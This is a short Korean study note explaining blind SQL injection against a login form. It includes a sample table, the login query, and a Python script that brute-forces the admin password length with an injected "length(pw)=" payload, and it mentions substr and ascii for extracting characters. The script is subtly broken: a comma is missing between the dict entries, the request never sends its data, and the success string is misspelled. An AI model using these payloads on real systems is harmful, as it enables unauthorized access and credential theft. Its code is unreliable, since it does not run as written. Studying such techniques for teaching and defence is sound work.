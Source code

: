 # blind sql injection

### blind sql injection 이란?

> 임의의 sql 구문을 만들어 데이터를 열람하는 공격이다.

즉 어떠한 데이터베이스에 공격을할때 임의의 query 를 만들어서 반환값을 이용해 한글자씩 따온다.

예 db 구조
```sql
database -> member
tables -> member
column -> (id,pw)
data -> ("admin","password"),("guest","guest")
```
```sql
SELECT * FROM member WHERE id='' and pw='';
```
위의 sql 쿼리로 login 을 체크할 시에
python 으로 blind sql injection 예를 든다면

```py
import requests

Url = "in url"

for length in range(1,100):
    data = {
        'uid':f"admin' and length(pw)={length}--'"
        'upw':'a'
    }

    r = requests.post(Url).text

    if r.find("Login succee!") > 0:
        print("admin user length pw : ",length)
        break
```

위의 python script 말고도 보고싶으면 밑의 링크에서 참고하면 좋다.

+ [blind sqli python script](https://github.com/kimminwyk/Study-notes/blob/master/SQL/MYSQL/MYSQL-SQL-injection/blind-sql-injection/blind-sql-injection-python-script.md)

+ [blind sqli node.js script](https://github.com/kimminwyk/Study-notes/blob/master/SQL/MYSQL/MYSQL-SQL-injection/blind-sql-injection/blind-sql-injection-node_js-script.md)


다음과 같은 예로 data 라는 변수에 dict 형식으로 

blind sqli 에 사용되는 쿼리를 만들어서 

requests 모듈로 요청한 뒤에 find 함수로 로그인 성공 감지됐다면 length 를 출력하는식이다.

* * *

간단하게 length(pw)={length} 에서 {} 안에 for loop 로 브루트포싱하여

참값이 될때까지 반복하는것이다.

위의 블라인드 인젝션이 성공되는 경우에는

```sql
SELECT * FROM member WHERE id='admin' and length(pw)=[1~100]
```

다음 쿼리와 같이 참의 값이 만들어져서 Login 이 우회되는것을 감지한다.

* * *

### length

그리고 mysql 에서 length() 는 안에 들어가는 데이터나 값을 넣으면 해당 데이터의 길이를 반환한다.

### 마무리

blind sqli 에서 length 말고도 다양한 쿼리가 존재한다

substr , left , ascii , mid 등등 다양한 문자열 , 길이를 브루트포싱하기위해 사용되는 함수가 많다.


